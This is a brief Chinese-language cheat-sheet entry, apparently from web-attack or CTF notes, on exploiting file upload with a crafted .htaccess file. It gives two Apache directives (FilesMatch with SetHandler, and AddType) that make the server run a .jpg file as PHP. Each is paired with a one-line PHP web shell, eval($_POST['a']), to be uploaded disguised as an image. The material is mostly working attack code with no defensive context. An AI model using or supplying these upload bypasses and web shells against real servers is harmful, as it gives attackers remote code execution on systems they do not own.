 ### .htaccess文件上传

**方法一**

`FileMatch` 参数即为文件名的正则匹配
匹配文件 `1.jpg` 解析为php文件

```php
<FilesMatch "1.jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
// 1.jpg
<?php eval($_POST['a']);?>
```

**方法二**：

上传 .htaccess 文件，将目录下所有 `.jpg` 文件解析为 `PHP` 文件

```php
AddType application/x-httpd-php .jpg
// 1.jpg
<?php eval($_POST['a']);?>
```

![](img/9.png)
